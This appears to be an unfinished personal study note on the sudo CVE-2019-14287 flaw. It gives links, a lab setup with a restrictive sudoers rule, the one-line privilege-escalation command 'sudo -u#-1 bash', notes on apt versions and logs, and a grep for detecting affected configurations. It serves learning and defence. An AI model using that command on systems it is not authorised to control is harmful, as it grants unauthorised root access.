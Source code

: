 # CVE

## MAIN

CVE - Common Vulnerabilities and Exposures

### CVE-2019-14287 sudo minus 1 uid

#### src

* [sudo.ws](https://www.sudo.ws/alerts/minus_1_uid.html)
* [CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
* [launchpad.net/ubuntu](https://launchpad.net/ubuntu) -&gt; find package

#### Details

check `sudo` version `$ sudo -V`

`$ apt show sudo` -&gt; `http://www.sudo.ws/`

```bash
$ sudo adduser alexis
$ sudo visudo
# PAM file
alexis ALL=(ALL, !root) ALL

(alexis) $ sudo -u#-1 bash
```

How to downgrade a package?

{% hint style="danger" %}
fill in
{% endhint %}

How to upgrade only sudo pkg?

{% hint style="danger" %}
fill in
{% endhint %}

What is `$ sudo apt dist-upgrade` ?

{% hint style="danger" %}
fill in
{% endhint %}

Is there a way I can see all the versions that are in the archives that I have configured in `sources.list`. I can see the last version of each archive with `apt-get policy`, but how can I see them all?

```bash
$ apt list -a <pkg name>
```

{% hint style="info" %}
check what is `madison` ?
{% endhint %}

Where you can see the logs of `sudo` activity?

```bash
# Ubuntu
/var/log/auth.log 
```

Checking if your environment is affected:

```bash
$ cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
```

`\s` stands for whitespace character, matches a space, a tab, a line break etc.

\`\`



